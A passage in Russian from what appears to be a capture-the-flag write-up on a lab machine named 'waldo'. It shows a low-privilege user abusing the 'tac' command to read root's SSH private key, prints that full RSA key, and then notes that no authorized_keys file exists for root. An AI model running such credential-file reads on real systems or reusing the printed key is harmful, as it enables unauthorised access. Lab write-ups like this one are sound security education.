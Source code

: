 ## Root-шелл
Можно было бы прочитать SSH-ключ суперпользователя для получения полноценной root-сессии:
```text
monitor@waldo:~$ tac /root/.ssh/id_rsa | tac
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAvN1rN9lPfdclMO+ZnoA17rDK5coWWPBMfIadj/PKozv1Ol49
Hql4uEZ6XmLqaV5sfbGaYShuRDJqverunF/c6ntu7AADFozRfkmXxnjkU4P7g8nE
IvNf4ow46MvAdiK3nEBD6TJJpwBjqI/RiVb7xac9uA9XWPAZk5CKw1VDCYzhWdbW
GymtVldQkpmMgE8h1/ymWTIXeMuPp/4k/Gfa0jB0TKplZFpGHZ0mBqsEFAU55t7E
TH9Vx2Otr6alb5C5Ufr3vrmdg5wat9FJYMKnd2hz1ful9GNpOF8cWUIDZYzAHmCO
ZXGiiZmiigagRDWCiiT/Jv0l+nek8ytEvGWiIQIDAQABAoIBAFQbAoFHe/fdVImb
WbzU+a+G+YQlX5hRwq39wLL3bTkOHWHVz8AU1laxxBK+WAd+bi/3ZHl56Mjj7tcO
hR4MLrQZLcdZJgbnxO9JVJalBYEPmHUS6A5sdTnNGhbJjbbONRgXImb55wTAzqCl
EznnC430sS6DXnGT0r/9MV5VXNomJwyPBz0t8yqvS8uJkni0GZE3hGRrd5fFeEgz
fz38bJCkN1RWWVgOiKYJUCZQRJ3eNiPBRChp0+NSY3Z/E4omNc07/xpdOnUyPMSP
sdQ5XKj5AIIW2XEd+S0Ro1IebfU3S0Bl4pCRzrROxJLNQNOedOv57JoEtcVC0Ko4
DRTS2YUCgYEA8YGaIIs9L6b2JmnXe8BKBZb0O61r3EsWvkGAsyzxbIlWNSWOcdW5
eHyHW9Md2J4hDTQbrFDQ7yUDoK+j6fi6V/fndD4IE9NUc1pNhhCB1Nt9nwj28nS7
DgNeNaceHtVrn5Hc9KTUJE7HhBwSffKMM95D/7xzYYxTqM11yh7c/ncCgYEAyDMO
05yq1Q/+t2tC5y3M+DVo4/cz65dppQcOf0MIIanwV7ncgk2Wa5Mw8fdo1FtnCdlR
kDE9rs5RkhoMhWcV9R1lV1xXScHaJik0ljghKrnU3yRNPOXTcKCCnxGhXsx8GjWu
uOV/JA5w4urzbUPRNqagREzeqTZN04aM2Jz9kicCgYBZPoVQJWQU6ePoShCBAIva
CPBz5SAIpg7fe6EtlRwZ+Z5LwXckBdCl/46dliRfWf/ouyrGwI6U8N6oUH+IBIwH
2epEAHBHsz5v6hzfv9XabMm9LTjkW9KL2R7FQN5WkpNUwjgeh5KFYD9GSIFk3W6F
9Eq4hFE26P45UMOIT2Nm/QKBgQCPrWUEpblMs/AAPvCC7THfKKWghbczazUchNX4
q2jYkBe3PeJtebVsevRzkzYewYJPZTHOJCi6ncOY8SzvSK5PfctPSSwz+PXQ0V22
OY5EFZ4ajvkHrYFzoR5dfs+rM2IVhVVhyQLYI60MjcYqMrOhXzBCFFDwa9Kq7jOC
+hhZnQKBgQClMZWr2GmGv7KN/LfhOa0dil3fWtxSdHdwdLlgrKDJslcQUM03sACh
F8mp0GWsEg8kUboEKkyAffG5mcZ/xwZP0MbnmGjIg28DgcbnMsldxOJi3m3VAbC+
x8YIcMgR7/X4fGSV20lsgTVMSH9uNNXD+W3sCJ6Nk+mUBcdUoeFt+w==
-----END RSA PRIVATE KEY-----
```

Однако в данном инстансе нет списка с разрешенными SSH-ключами (aka *authorized_keys*) для рута:
```text
monitor@waldo:~$ tac /root/.ssh/authorized_keys
tac: failed to open '/root/.ssh/authorized_keys' for reading: No such file or directory
```

Что делает авторизацию невозможной.

